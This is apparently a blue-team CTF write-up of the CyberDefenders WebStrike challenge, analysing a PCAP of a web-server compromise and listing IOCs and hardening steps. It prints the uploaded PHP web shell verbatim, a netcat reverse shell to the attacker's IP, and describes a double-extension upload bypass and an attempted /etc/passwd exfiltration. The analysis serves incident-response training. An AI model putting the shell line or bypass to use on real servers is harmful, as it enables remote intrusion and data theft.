





# CyberDefenders - WebStrike (PCAP) Write-up

Challenge: [WebStrike](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)

---

## Scenario

A suspicious file was identified on a company web server, raising alarms within the intranet. The development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.

---

## Objectives

- Determine how the suspicious file appeared on the web server.
- Identify attacker infrastructure and tools (user-agent, IP, ports).
- Identify what the attacker attempted to access/exfiltrate.

---

## Evidence & Findings (Wireshark)

### 1) City of origin (attacker geolocation)

**Question:** From which city did the attack originate?

**What I checked:** HTTP traffic related to file upload attempts and the source IP responsible for the uploads.

**Evidence:** Upload-related traffic originates from `117.11.88.124`.





**Reasoning:** The repeated upload attempts and subsequent web shell activity point to `117.11.88.124` as the attacker IP. Using IP geolocation for `117.11.88.124` returns **Tianjin, China**.

**Answer:** **Tianjin**

---

### 2) Attacker User-Agent

**Question:** What's the attacker's full User-Agent?

**What I checked:** HTTP headers from the attacker’s requests.

**Evidence:** The request includes:

```text
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

**Answer:** **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**

---

### 3) Malicious web shell filename successfully uploaded

**Question:** What is the name of the malicious web shell that was successfully uploaded?

**What I checked:** Followed HTTP streams around `POST /reviews/upload.php` to view multipart upload filenames and server responses.

**Evidence:** Initial attempt used `filename="image.php"`, followed by a bypass attempt using a double extension `filename="image.jpg.php"`.





**Reasoning:** The attacker attempted to bypass extension-based filtering by using a double extension that looks like an image but still executes as PHP. The server responds with “File uploaded successfully” for `image.jpg.php`.

**Answer:** **image.jpg.php**

---

### 4) Upload directory used by the website

**Question:** Which directory is used by the website to store uploaded files?

**What I checked:** The path used to access the uploaded file after the upload completed.

**Evidence:** The attacker accesses the shell via:

```text
GET /reviews/uploads/image.jpg.php HTTP/1.1
```

**Reasoning:** This indicates the application stores uploaded content under `/reviews/uploads/`.

**Answer:** **/reviews/uploads/**

---

### 5) Reverse shell target port on attacker host

**Question:** Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

**What I checked:** The PHP web shell body uploaded in the multipart request.

**Evidence:** The uploaded PHP executes a reverse shell using netcat:

```text
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```

**Reasoning:** The hardcoded netcat destination indicates the attacker was listening on TCP **8080**.

**Answer:** **8080**

---

### 6) File the attacker attempted to exfiltrate

**Question:** Which file was the attacker attempting to exfiltrate?

**What I checked:** Followed the later HTTP stream where the attacker uses `curl` and sends data via HTTP POST.

**Evidence:** The request body contains:

```text
/etc/passwd
```



**Reasoning:** `/etc/passwd` is a common Linux local file targeted to enumerate users and validate read access on a compromised system.

**Answer:** **/etc/passwd**

---

## Key IOCs

- **Attacker IP:** `117.11.88.124`
- **Web shell:** `image.jpg.php`
- **Upload endpoint:** `POST /reviews/upload.php`
- **Upload directory:** `/reviews/uploads/`
- **Reverse shell destination:** `117.11.88.124:8080`
- **Exfil target (attempted):** `/etc/passwd`
- **User-Agent (initial activity):** `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
- **User-Agent (later/exfil stream):** `curl/7.81.0`

---

## Remediation / Hardening

- Remove uploaded web shells from `/reviews/uploads/` and rotate any credentials present on the server.
- Fix upload validation: enforce server-side allowlist on extension + MIME + magic bytes, and store uploads outside web root (or serve via indirect handler).
- Block and alert on outbound connections matching reverse-shell behavior (e.g., netcat-like patterns) and on unexpected egress to `117.11.88.124:8080`.
- Add WAF rules for suspicious multipart uploads and `.php` in upload filenames (including double extensions like `.jpg.php`).

